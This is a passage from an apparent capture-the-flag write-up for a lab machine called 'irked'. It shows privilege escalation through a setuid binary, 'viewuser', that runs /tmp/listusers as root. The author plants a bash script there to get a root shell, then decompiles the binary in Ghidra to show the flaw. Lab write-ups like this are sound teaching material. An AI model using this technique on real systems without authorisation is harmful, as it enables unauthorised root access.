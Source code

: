 ```
<... system resumed> )                                                                                                                             = 32512
+++ exited (status 0) +++
```
As we can see, after setuid(0) a system call is executed, requesting the execution (as root) of /tmp/listusers.  
Now we can take advantage of this simply by creating the following file:  
```
djmardov@irked:~$ cat /tmp/listusers
#!/bin/bash
/bin/bash
djmardov@irked:~$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 20 03:05 (:0)
djmardov pts/0        Dec 20 04:04 (10.10.14.18)
root@irked:~# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Since we are curious, we want to extract from the binary the original source.  
To do so, let's use ghidra.  
Let's create a progect -> Click the Dragon -> Import Project.  
On the side Symbol Tree -> Main.  
And as we can see from the output below, we can recover the original code.  
```
undefined4 main(void)

{
  puts("This application is being devleoped to set and test user permissions");
  puts("It is still being actively developed");
  system("who");
  setuid(0);
  system("/tmp/listusers");
  return 0;
}
```
